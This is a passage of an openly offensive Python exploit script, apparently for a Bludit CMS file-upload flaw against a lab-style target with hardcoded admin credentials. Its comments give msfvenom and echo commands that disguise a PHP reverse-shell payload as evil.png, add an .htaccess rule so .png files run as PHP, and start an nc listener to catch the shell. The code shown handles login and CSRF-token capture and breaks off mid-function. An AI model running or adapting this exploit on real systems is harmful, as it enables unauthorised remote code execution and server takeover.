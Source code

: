 ```python
# Special Thanks to Ali Faraj (@InfoSecAli) and authors of MSF Module https://www.exploit-db.com/exploits/47699

#### USAGE ####
# 1. Create payloads: .png with PHP payload and the .htaccess to treat .pngs like PHP
# 2. Change hardcoded values: URL is your target webapp, username and password is admin creds to get to the admin dir
# 3. Run the exploit
# 4. Start a listener to match your payload: `nc -nlvp 53`, meterpreter multi handler, etc
# 5. Visit your target web app and open the evil picture: visit url + /bl-content/tmp/temp/evil.png

#!/usr/bin/env python3

import requests
import re
import argparse
import random
import string
import base64
import threading

from requests.exceptions import Timeout
from pwn import *

# Cambiando los Valores a los nuestros
url = 'http://10.10.10.191'  # CHANGE ME
username = 'fergus'  # CHANGE ME
password = 'RolandDeschain'  # CHANGE ME
lport = 443

# Paso 1
# msfvenom -p php/reverse_php LHOST=127.0.0.1 LPORT=53 -f raw -b '"' > evil.png
# echo -e "<?php $(cat evil.png)" > evil.png 
payload = 'evil.png'  # CREATE ME

# Paso 2
# echo "RewriteEngine off" > .htaccess
# echo "AddType application/x-httpd-php .png" >> .htaccess
payload2 = '.htaccess'  # CREATE ME

def login(url,username,password):
    """ Log in with provided admin creds, grab the cookie once authenticated """

    session = requests.Session()
    login_page = session.get(url + "/admin/")
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"',
                           login_page.text
                 ).group(1)
    cookie = ((login_page.headers["Set-Cookie"]).split(";")[0].split("=")[1])
    data = {"save":"",
            "password":password,
            "tokenCSRF":csrf_token,
            "username":username}
    headers = {"Origin":url,
               "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
               "Upgrade-Insecure-Requests":"1",
               "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0",
               "Connection":"close",
               "Referer": url + "/admin/",
               "Accept-Language":"es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding":"gzip, deflate",
```